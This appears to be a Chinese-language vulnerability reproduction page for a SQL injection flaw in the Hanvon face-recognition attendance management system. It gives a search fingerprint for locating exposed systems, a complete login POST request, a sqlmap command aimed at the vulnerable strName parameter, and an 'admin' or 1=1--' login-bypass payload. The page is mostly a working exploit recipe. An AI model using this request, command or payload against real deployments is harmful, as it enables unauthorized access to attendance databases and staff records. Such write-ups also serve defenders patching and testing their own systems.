



汉王人脸考勤管理系统 Check SQL注入漏洞¶
漏洞描述¶
汉王人脸考勤管理系统存在SQL注入漏洞，攻击者可利用该漏洞获取数据库敏感信息。
漏洞影响¶
汉王人脸考勤管理系统
网络测绘¶
title=""汉王人脸考勤管理系统""
漏洞复现¶
登录界面如下

请求包如下
POST /Login/Check HTTP/1.1
Host: x.x.x.x
Content-Length: 27
Accept: */*
X-Requested-With: XMLHttpRequest
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/90.0.4430.72 Safari/537.36
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
Origin: http://x.x.x.x:8088
Referer: http://x.x.x.x:8088/Login/Index
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: ASP.NET_SessionId=otvxgfy0csmrw4i5y5t24oo1
Connection: close
strName=admin&strPwd=123456
其中strName参数存在注入
sqlmap -r postwang.txt -p strName --current-user

user: admin' or 1=1--
pass: admin
万能密码绕过登录
